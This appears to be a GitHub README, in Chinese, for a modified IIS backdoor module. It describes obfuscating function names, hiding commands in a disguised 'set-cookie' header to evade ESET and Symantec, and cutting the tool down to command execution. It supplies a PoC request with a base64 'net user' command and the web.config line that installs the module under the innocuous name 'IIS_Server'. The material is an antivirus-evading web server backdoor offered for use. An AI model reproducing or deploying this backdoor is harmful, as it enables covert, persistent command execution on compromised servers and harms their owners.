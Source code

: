 ### 简介
参考WBGlIl大佬项目，删除powershell和shellcode功能，只保留cmd功能
Cookie: cmd= 改成 Cookie: set-cookie=，对函数名进行混淆
目前已绕过 eset 和 symantec 

### PoC如下
```
GET /aspnet_client/system_web/iisstart.png HTTP/2
Host: 192.168.42.128
Cookie: set-cookie=bmV0IHVzZXI=
```
### web.config 添加如下内容
```
<add name="IIS_Server" type="IIS_Server_dll.IISModule" />
```

![飞书20230223-125217](https://user-images.githubusercontent.com/72059221/220823929-5b47c98a-94b7-4e9d-90a7-f30d4527eab3.jpg)

### 实际测试  
![飞书20230223-115221](https://user-images.githubusercontent.com/72059221/220817771-b66c981d-df1e-46ff-8a02-ec4a62f023c5.jpg)

![飞书20230223-115225](https://user-images.githubusercontent.com/72059221/220817780-05b90dbb-fb4c-435f-92ea-a4fa5560cd82.jpg)

---分割线---

原项目地址：https://github.com/WBGlIl/IIS_backdoor

主要是实现了3个功能执行cmd命令，C#调用powershell，执行shellcode

其实文件上传也写了就是IIS_backdoor_shell项目没有添加对应的选项

因为Cookie大小限制是4096所以不能传输很大的文件，你也可以自行修改项目不使用Cookie传输数据

其实还有很多可以改进的地方不过我懒的写了暂时就这样吧

代码写的比较渣大佬误喷
